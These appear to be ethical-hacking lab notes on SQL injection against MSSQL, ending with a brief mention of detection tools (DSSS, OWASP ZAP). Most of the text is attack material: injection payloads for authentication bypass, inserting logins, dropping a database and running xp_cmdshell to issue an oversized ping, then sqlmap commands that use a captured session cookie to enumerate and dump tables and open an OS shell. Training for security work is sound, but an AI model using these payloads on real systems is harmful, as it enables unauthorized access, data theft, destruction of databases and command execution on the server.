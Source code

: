 # SQL Injection

## SQL injection attacks

### Perform an SQL injection attack on an MSSQL database

* blah' or 1=1 -- 
* blah';insert into login values ('john','apple123'); -- 
* blah';create database mydatabase; -- 
* blah'; DROP DATABASE mydatabase; -- 
* blah';exec master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; -- 


### Perform an SQL injection attack against MSSQL to extract databases using sqlmap

login into moviescope.com
view profile
inspect element and get document cookie

```
sqlmap -u "url" --cookie="cookie" --dbs
sqlmap -u "url" --cookie="cookie" -D database --tables
sqlmap -u "url" --cookie="cookie" -D database -T tablename --dump
sqlmap -u "url" --cookie="cookie" --os-shell
	hostname
	dir
	traklist
```

## Detect SQL injection vulnerabilities using various SQL injection detection tools

### Detect SQL injection vulnerabilities using DSSS

```
cd DSSS
python3 dsss.py
dsss.py -u "url" --cookie="cookie" 
```

### Detect SQL injection vulnerabilities using OWASP ZAP


Automated Scan
Attack
